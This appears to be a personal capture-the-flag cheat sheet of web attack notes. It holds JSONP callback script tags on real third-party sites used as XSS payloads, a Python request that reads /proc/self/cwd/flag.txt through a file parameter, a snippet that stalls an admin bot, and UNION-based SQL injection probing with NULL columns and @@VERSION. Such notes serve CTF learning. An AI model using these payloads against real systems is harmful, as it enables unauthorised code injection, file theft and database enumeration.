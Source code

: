 <h1>JSOPN callback links</h1>

```
<script src="https://m.addthis.com/live/red_lojson/100eng.json?callback=alert('SELECT sleep')"></script>
<script src="https://www.youtube.com/oembed?url=fake&format=json&callback=alert('SELECT sleep')"></script>
```

https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt : Many other endpoints

<h1>NGROK</h1>

![WSL](WSL.png)

![Listen](nc listen.png)

![Termux](termux.png)

- Accessing files if read permission
  If have access to read files in a system via a script running in the directory where challenge in running, can use `/proc/self/cwd/flag.txt`. /proc/self/cwd/flag.txt refers to the file named “flag.txt” located in the   current working directory of the process that accesses it. 

The /proc directory is a special directory in Linux that provides an interface to kernel data structures.
It contains information about processes, system configuration, and other system-related details.

Self is symlink to current process, cwd meads current working diirectory.

So like: 

```
print(requests.request("GET", URL+"/api/file?filename=/proc/self/cwd/flag.txt", headers={'Cookie': f'session={session_cookie}'}).text)
```

- Making a bot run long:
`await new Promise((resolve) => setTimeout(resolve, 9999999));`

-Sql injection notes:

You can put NULL if you don't know the column name of a database. If using UNION and do not know the number of columns you could try to manually put NULL,NULL,NULL,... as many until you get some kind of valid response
Eg : 2 UNION SELECT NULL,NULL,NULL,NULL
Now to find out the type of database if it's not returning back error codes you could try to put @@VERSION instead of NULL and then search what you get back

